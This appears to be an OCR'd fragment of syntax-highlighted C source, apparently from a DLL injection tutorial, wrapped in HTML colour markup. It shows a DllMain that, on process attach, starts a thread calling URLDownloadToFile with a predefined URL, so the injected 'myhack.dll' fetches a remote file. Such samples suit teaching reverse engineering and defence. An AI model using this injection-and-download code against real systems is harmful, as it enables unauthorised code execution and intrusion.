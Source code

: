 

**<font style="color:#d4d4d4;">    </font>****<font style="color:#dcdcaa;">_tcscpy_s</font>****<font style="color:#d4d4d4;">(p+</font>****<font style="color:#b5cea8;">1</font>****<font style="color:#d4d4d4;">, _MAX_PATH, DEF_FILE_NAME);</font>**



**<font style="color:#d4d4d4;">    </font>****<font style="color:#dcdcaa;">URLDownloadToFile</font>****<font style="color:#d4d4d4;">(</font>****<font style="color:#569cd6;">NULL</font>****<font style="color:#d4d4d4;">, DEF_URL, szPath, </font>****<font style="color:#b5cea8;">0</font>****<font style="color:#d4d4d4;">, </font>****<font style="color:#569cd6;">NULL</font>****<font style="color:#d4d4d4;">);</font>**



**<font style="color:#d4d4d4;">    </font>****<font style="color:#c586c0;">return</font>****<font style="color:#d4d4d4;"> </font>****<font style="color:#b5cea8;">0</font>****<font style="color:#d4d4d4;">;</font>**

**<font style="color:#d4d4d4;">}</font>**



**<font style="color:#d4d4d4;">BOOL WINAPI </font>****<font style="color:#dcdcaa;">DllMain</font>****<font style="color:#d4d4d4;">(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)</font>**

**<font style="color:#d4d4d4;">{</font>**

**<font style="color:#d4d4d4;">    HANDLE hThread = </font>****<font style="color:#569cd6;">NULL</font>****<font style="color:#d4d4d4;">;</font>**



**<font style="color:#d4d4d4;">    g_hMod = (HMODULE)hinstDLL;</font>**



**<font style="color:#d4d4d4;">    </font>****<font style="color:#c586c0;">switch</font>****<font style="color:#d4d4d4;">( fdwReason )</font>**

**<font style="color:#d4d4d4;">    {</font>**

**<font style="color:#d4d4d4;">    </font>****<font style="color:#c586c0;">case</font>****<font style="color:#d4d4d4;"> DLL_PROCESS_ATTACH : </font>**

**<font style="color:#d4d4d4;">        </font>****<font style="color:#dcdcaa;">OutputDebugString</font>****<font style="color:#d4d4d4;">(</font>****<font style="color:#ce9178;">L"<myhack.dll> Injection!!!"</font>****<font style="color:#d4d4d4;">);</font>**

**<font style="color:#d4d4d4;">        hThread = </font>****<font style="color:#dcdcaa;">CreateThread</font>****<font style="color:#d4d4d4;">(</font>****<font style="color:#569cd6;">NULL</font>****<font style="color:#d4d4d4;">, </font>****<font style="color:#b5cea8;">0</font>****<font style="color:#d4d4d4;">, ThreadProc, </font>****<font style="color:#569cd6;">NULL</font>****<font style="color:#d4d4d4;">, </font>****<font style="color:#b5cea8;">0</font>****<font style="color:#d4d4d4;">, </font>****<font style="color:#569cd6;">NULL</font>****<font style="color:#d4d4d4;">);</font>**

**<font style="color:#d4d4d4;">        </font>****<font style="color:#dcdcaa;">CloseHandle</font>****<font style="color:#d4d4d4;">(hThread);</font>**

**<font style="color:#d4d4d4;">        </font>****<font style="color:#c586c0;">break</font>****<font style="color:#d4d4d4;">;</font>**
